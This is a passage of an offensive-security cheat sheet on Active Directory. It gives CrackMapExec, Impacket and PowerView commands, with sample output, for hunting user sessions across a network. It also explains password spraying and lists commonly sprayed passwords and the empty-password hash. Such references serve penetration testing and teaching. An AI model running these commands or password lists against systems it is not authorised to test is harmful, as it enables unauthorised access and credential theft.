 
The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.

## User Hunting

Sometimes you need to find a machine where a specific user is logged in.
You can remotely query every machines on the network to get a list of the users's sessions.

- CrackMapExec
    
    ```ps1
    cme smb 10.10.10.0/24 -u Administrator -p 'P@ssw0rd' --sessions
    SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  [+] Enumerated sessions
    SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  \\10.10.10.10            User:Administrator
    ```
    
- Impacket Smbclient
    
    ```ps1
    $ impacket-smbclient Administrator@10.10.10.10
    # who
    host:  \\10.10.10.10, user: Administrator, active:     1, idle:     0
    ```
    
- PowerView Invoke-UserHunter
    
    ```ps1
    # Find computers were a Domain Admin OR a specified user has a session
    Invoke-UserHunter
    Invoke-UserHunter -GroupName "RDPUsers"
    Invoke-UserHunter -Stealth
    ```
    

## Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password.

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)
- Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)
